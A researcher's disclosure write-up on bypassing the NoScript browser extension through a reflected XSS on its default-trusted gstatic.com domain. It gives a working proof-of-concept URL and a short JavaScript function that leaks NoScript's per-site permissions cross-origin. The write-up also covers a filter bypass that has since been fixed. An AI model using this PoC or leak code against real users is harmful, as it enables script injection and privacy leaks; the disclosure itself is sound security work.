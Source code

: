 ```yaml
---
title: NoScript part 2
---
```


See <https://ndevtk.github.io/writeups/2022/09/01/noscript/> for context about what NoScript is.


# Bypass to run Javascript

This extension comes preinstalled with a list of trusted websites where javascript is allowed to run, this includes `gstatic.com` that Google treats as a sandbox domain. <https://github.com/hackademix/noscript/blob/cc0471fe52a069b73b20b5e4213f54e8699a3052/src/bg/Settings.js#L218>

While my favorite `gstatic.com` XSS endpoint was over `postMessage` it wont work for this since I can't run javascript to send a message luckily the Google Security Team provided me with the location of a URL reflected XSS 🙂

PoC: <https://www.gstatic.com/vr/ads/playground/metrics.html#assetUrl=https://tinyurl.com/2yrfxf5a>

Normally on Firefox this would have been prevented by NoScript's anti-XSS protection however by reusing the iframe source XSS sink as a way to navigate to the XSS page in the embed it would be considered same-origin initiated which is except from the filter.

This anti-XSS bypass was fixed in <https://github.com/hackademix/noscript/commit/10e2c40c1ca55ee7482705c47d2b3ec41aded4f7> but the sandbox domain is still marked as trusted for compatibility.

May also be other ways to bypass NoScript since there's no way of knowing if code running on <https://code.earthengine.google.com/> or a sandboxed ‘null’ origin iframe is safe.

...Ideally don't have any sandbox domains in your NoScript permissions or even better the least amount necessary, not the first time the default list has been vulnerable <https://thehackerblog.com/the-noscript-misnomer-why-should-i-trust-vjs-zendcdn-net/>

# Leaking the permissions of a cross-site URL
Yay XS-Leaks! (Mainly privacy consern)
```js
async function getPermissions(url) {
 const result = await fetch('https://[ff00::]/nscl/chrome-extension://doojmbjmlfjjnbmnoijecmcbfeoakpjm/syncMessage?msg='+encodeURIComponent(JSON.stringify({"id": "fetchChildPolicy", "url": url})));
 const body = await result.json();
 const chunk = JSON.parse(body.chunk);
 return chunk;
}
```

# Some other interesting behaviors
- Tries to implement its own version of CORS <https://github.com/hackademix/nscl/blob/9f59d8d823cc58b2a9c751b4db7715658b68cc67/service/prefetchCSSResources.js#L59>
- Hooks service worker registration <https://github.com/hackademix/nscl/blob/9f59d8d823cc58b2a9c751b4db7715658b68cc67/service/patchWorkers.js#L61>
